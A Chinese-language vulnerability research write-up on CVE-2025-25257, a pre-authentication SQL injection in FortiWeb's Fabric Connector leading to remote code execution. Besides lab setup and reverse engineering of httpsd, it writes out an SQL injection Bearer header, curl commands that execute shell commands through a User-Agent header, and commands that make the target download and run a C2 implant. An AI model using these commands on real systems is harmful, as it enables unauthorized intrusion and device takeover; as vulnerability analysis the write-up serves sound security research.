# fortiweb-未授权RCE(CVE-2025-25257)-先知社区

> **来源**: https://xz.aliyun.com/news/18459  
> **文章ID**: 18459

---

# **fortiweb-未授权RCE(CVE-2025-25257)**

## 漏洞简述

Fortinet 的 FortiWeb Fabric Connector 旨在成为 FortiWeb（其 Web 应用防火墙）与其他 Fortinet 生态系统产品之间的粘合剂，允许根据基础设施或威胁态势的实时变化进行动态、基于策略的安全更新

可以将其视为一个高级中间人——从 FortiGate 防火墙、FortiManager 甚至 AWS 等外部服务等来源提取元数据，并将其输入 FortiWeb，以便其自动调整防护措施

FortiWeb存在预授权 SQLi 漏洞，可以利用该漏洞在 Fortinet 的 FortiWeb 中实现 RCE，攻击者可在 Authorization: Bearer 头中注入恶意 SQL语句，实现远程代码执行获取服务器权限

## 影响版本

7.6.0 <= FortiWeb <= 7.6.3

7.4.0 <= FortiWeb <= 7.4.7

7.2.0 <= FortiWeb <= 7.2.10

7.0.0 <= FortiWeb <= 7.0.10

## 搭建环境

<https://support.fortinet.com/support/#/downloads/vm>

下载 fortiwebV7.6.3 vm 虚拟机

```
admin 无密码直接登录
```

配置服务

```
config system interface
edit port1
 set mode static
 set ip 192.168.75.23 255.255.255.0
 set allowaccess http https ping ssh 
 end
```



配置成功之后，执行一下命令可以查看接口信息

```
show system interface
```



配置网关

```
config router static
 edit 1
 set device port1
 set gateway 192.168.75.2
 end
```

测试连接

```
exec ping 8.8.8.8
```



## Exp验证

启动脚本

```
 python .\exp.py --target https://192.168.75.23
```



然后进行 RCE

```
curl -k -H "User-Agent: id" https://192.168.75.23/cgi-bin/x.cgi
```



挂载磁盘，拿出rootfs.gz

```
sudo chmod 777 /media/iot/dd0b810c-3130-44d0-851b-f57f25eb9a07/rootfs.gz
cp /media/iot/dd0b810c-3130-44d0-851b-f57f25eb9a07/rootfs.gz ./
```



```
binwalk -Me rootfs.gz
```

使用 binwalk 进行解包



`FortiWeb` 启动的 `Web` 服务对应 `/bin/httpsd` 进程,IDA 加载后找到

`get_fabric_user_by_token` 函数，存在比较明显的字符串拼接：



向上搜索，在 `fabric_access_check` 函数中存在数据库操作，并且调用了 `get_fabric_user_by_token` ，输入参数来自于 `header` 头中的 `Authorization`



尝试在 httpd.conf 中搜索 Auth 等字样寻找哪些 URL 可以触发 fabric\_access\_check，



找到 URL -> /api/fabric/authenticate ,进行gdb调试看看是否能被触发。

## 调试

利用 RCE 传入 c2马

```
python3 -m http.server 1314
curl -k -H "User-Agent: wget -O /tmp/gdbserver http://192.168.75.131:1314/gdbserver-7.10.1-x64" https://192.168.75.23/cgi-bin/x.cgi
curl -k -H "User-Agent: chmod +x /tmp/gdbserver ; ls /tmp -all |grep gdb ;" https://192.168.75.23/cgi-bin/x.cgi
```

利用 RCE 传入 gdbserver



因为直接反弹shell 有点问题，所以这边上了个 c2

```
curl -k -H "User-Agent: wget -O /tmp/vs http://10.101.5.110:1315/vs" https://192.168.75.23/cgi-bin/x.cgi
curl -k -H "User-Agent: chmod +x /tmp/vs ; ls /tmp -all |grep vs ;" https://192.168.75.23/cgi-bin/x.cgi
curl -k -H "User-Agent: /tmp/vs" https://192.168.75.23/cgi-bin/x.cgi
```



利用 C2 进行命令执行方便很多



附加进程

```
/tmp/gdbserver 0.0.0.0:5566 --attach $(pidof httpsd | awk '{print $1}')
```

gdb.sh

```
gdb \
    -ex "set exception-verbose on" \
    -ex "target remote 192.168.75.23:5566" \
    -ex "b* _fabric_access_check" \
    -ex "b* get_fabric_user_by_token+0xb4" \
    -ex "c"
```

使用 bp 进行发包

```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.75.23
Authorization: Bearer mowen' or sleep(5)-- -'
```

然后就可以进行调试了，需要注意的是 httpsd 有多个进程，我们附加的只有一个进程，所以需要多发几次包就有概率attch上

获取 Authorization 为我们传入的值



格式化输入 ，单引号已成功注入，但之后的所有内容没有被输入进来。



但是我们的命令仍然能够注入进，只是少了一些执行语句



之后就会进入 execute\_sql() 执行 sql语句



```
#0  0x00007f0894083780 in execute_sql () from target:/lib64/libml_common_db.so
#1  0x000055e3fdb81e6c in get_fabric_user_by_token ()
#2  0x000055e3fdb7e9e6 in _fabric_access_check ()
#3  0x000055e3fdb7f633 in ?? ()
#4  0x000055e3fd987e2a in ap_run_handler ()
